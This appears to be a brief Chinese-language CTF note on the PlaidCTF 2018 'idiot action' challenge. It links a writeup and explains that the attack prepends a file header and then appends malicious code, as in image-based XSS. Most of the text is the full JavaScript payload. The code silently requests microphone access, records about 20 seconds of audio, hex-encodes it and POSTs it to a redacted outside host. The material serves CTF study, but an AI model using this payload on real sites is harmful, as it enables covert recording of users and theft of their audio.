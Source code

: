 ### audio
**CTF**
[PlaindCTF 2018](https://github.com/neptunia/plaidctf-writeups-2018/blob/master/idiot_action.md)
观看Writeup之后可以知道，作者借鉴了image进行xss攻击的手法。构造文件头然后后续插入恶意代码进行攻击。攻击payload：
```javascript
	// appends an audio element to playback and download recording
	function createAudioElement(blobUrl) {
		var oReq = new XMLHttpRequest();
		oReq.open("GET", blobUrl, true);
		oReq.responseType = "arraybuffer";

		oReq.onload = function (oEvent) {
			var arrayBuffer = oReq.response; // Note: not oReq.responseText
			if (arrayBuffer) {
				var sicedeets = Array.prototype.map.call(new Uint8Array(arrayBuffer), x => ('00' + x.toString(16)).slice(-2)).join('');
				var oreq2 = new XMLHttpRequest();
				oreq2.open("POST", "<redacted>", true);
				oreq2.send(sicedeets);
			}
		};
		oReq.send(null);
	}

	// request permission to access audio stream
	navigator.mediaDevices.getUserMedia({ audio: true }).then(stream => {
		// store streaming data chunks in array
		const chunks = [];
		// create media recorder instance to initialize recording
		const recorder = new MediaRecorder(stream);
		// function to be called when data is received
		recorder.ondataavailable = e => {
			// add stream data to chunks
			chunks.push(e.data);
			// if recorder is 'inactive' then recording has finished
			if (recorder.state == 'inactive') {
				// convert stream data chunks to a 'webm' audio format as a blob
				const blob = new Blob(chunks, {type: 'audio/webm'});
			// convert blob to URL so it can be assigned to a audio src attribute
			createAudioElement(URL.createObjectURL(blob));
			}
		};
		// start recording with 1 second time between receiving 'ondataavailable' events
		recorder.start(1000);
		// setTimeout to stop recording after 4 seconds
		setTimeout(() => {
			// this will trigger one final 'ondataavailable' event and set recorder state to 'inactive'
			recorder.stop();
		}, 20000);
	}).catch(console.error);
```
